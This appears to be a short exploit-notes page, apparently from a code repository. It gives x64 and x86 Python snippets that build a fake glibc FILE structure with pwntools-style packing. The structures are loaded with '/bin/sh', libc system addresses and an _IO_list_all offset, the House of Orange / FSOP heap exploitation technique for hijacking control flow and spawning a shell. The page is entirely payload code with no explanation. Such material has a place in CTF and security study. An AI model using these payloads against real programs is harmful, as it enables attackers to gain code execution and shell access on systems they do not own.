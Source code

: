 

# Modules
x64
```python
fake = "/bin/sh\x00"+p64(0x61)+p64(libc.symbols['system'])+p64(libc.symbols['_IO_list_all']-0x10)+p64(0)+p64(1)
fake =fake.ljust(0xa0,'\x00')+p64(fio+0x8)
fake =fake.ljust(0xc0,'\x00')+p64(1)
fake = fake.ljust(0xd8, '\x00')+p64(fio+0xd8-0x10)+p64(libc.symbols['system'])
```
x86
```python
fake = "sh\x00\x00"+p32(0x31)+p32(libc.symbols['system'])+p32(libc.symbols['_IO_list_all']-0x8)+p32(0)+p32(1)
fake =fake.ljust(0x48,'\x00')+p32(fio+0x4)
fake =fake.ljust(0x88,'\x00')+p32(1)
fake = fake.ljust(0x94, '\x00')+p32(fio+0x94-0x8)+p32(libc.symbols['system'])
```
